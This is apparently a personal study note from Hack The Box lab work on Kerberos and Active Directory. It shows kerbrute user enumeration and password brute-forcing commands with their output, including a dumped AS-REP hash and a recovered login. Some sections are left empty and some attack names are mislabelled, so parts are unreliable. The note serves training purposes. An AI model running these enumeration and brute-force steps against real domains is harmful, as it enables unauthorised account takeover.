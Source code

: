 ## Understanding Kerberos protocol

The whole information it's provided by Hack The Box 
Academy.



### DNS
Active Directory Domain Services (AD DS) users DNS to allow clients
(workstations, servers, and other systems that communicate with
the domain) to locate Domain Controllers and for Domain Controllers 
that host the diretory service to communicate amongst themselves. 
DNS is used to resolve hostnames to IP addresses and is broadly
used across internal networks and the internet. Private internal
networks user Active Directory DNS



A simple example of DNS resolution



user with browser                       DNS server

Request for https://inlanefreight.com ===>  
Response    IP:134.209.24.248  <===







### LDAP



### Kerberos


With a several names, we get using user-anarchy, possible
usernames

and perform a kerbrute attack

```bash
kerbrute userenum -d <domain> --dc <ip address> user-list.txt
```

with this tool if there are any valid user in the user-list.txt
we get a hash referring to a Ticket Granted Ticket

```bash
❯ /opt/kerbrute  userenum -d <domain name "commonly .local or .htb"> --dc <ip address domain controller> unames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 05/29/23 - Ronnie Flathers @ropnop

2023/05/29 23:33:40 >  Using KDC(s):
2023/05/29 23:33:40 >   10.10.10.175:88

2023/05/29 23:33:40 >  [+] fsmith has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$<userdomain>@<domain>:<hash to crack it with john or hashcat>
2023/05/29 23:33:40 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2023/05/29 23:33:41 >  Done! Tested 24 usernames (1 valid) in 0.481 seconds
```

The code above it's an example of how can i do to get the TGT from kerbrute and
after that I cracked it and i get the password for the user fsmith and
connect it with evil-winrm







* TGT: Ticket Granting Ticket, it's the ticket presented to the KDC to obtain a TGS
* TGS: Ticket Granting Services, it's the ticket presented to a service which has resource that we want to connect
* KDC: Key Distribution Center, Kerberos services that has the role to distribute the tickets to the users installed in the DC
* AP: Application service



When you have users actives in a Active directory
you can perform a ASREPROAST attack

```bash
❯ /opt/kerbrute bruteuser -d <domain> --dc  <ip-address> <users files> passwords

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 06/05/23 - Ronnie Flathers @ropnop

2023/06/05 01:08:34 >  Using KDC(s):
2023/06/05 01:08:34 >   10.10.11.168:88

2023/06/05 01:08:35 >  [+] VALID LOGIN:  ksimpson@scrm.local:ksimpson
2023/06/05 01:08:35 >  Done! Tested 6 logins (1 successes) in 0.490 seconds
```

If we have a valid user and password (credentials), we can perform
a Kerberoasting Attack


## How the services request and response to the KDC

* HASH NTLM => AS-REQ (TGT?) => KDC
* HASH NTLM <= AS-REP (TGT) <= KDC
* HASH NTLM => TGS-REQ (TGS?) => KDC
* HASH NTLM <= TGS-REP (TGS) <= KDC



## Attacks based in the kind of hash

### **Golden Ticket Attack**


### **Silver Ticket Attack**
* (NTLM Hash)
* (Domain SID getPac.py)
* SPN





```Powershell
Get-ChildItem -Path "C:\Users\" -Filter "name of file" -Recurse
```



## Kerberos Authentication Process.


* 1. The user logs on, and their password is converted to an NTLM hash, which is used to encrypt the TGT ticket. This 
    decouples the user's credentials from requests to resources.

* 2. The KDC service on the DC checks the Authenticaiton Service request (AS-REQ), verifies the user information, and created a Ticket
 Granting Ticket (TGT), which is delivered to the user.

* 3. The user presents the TGT to the DC requesting a Ticket Granting Service (TGS) ticket for a specific
service. This is the TGS-REQ. If the TGT is successfully validated, its data is copied to create a TGS
ticket.
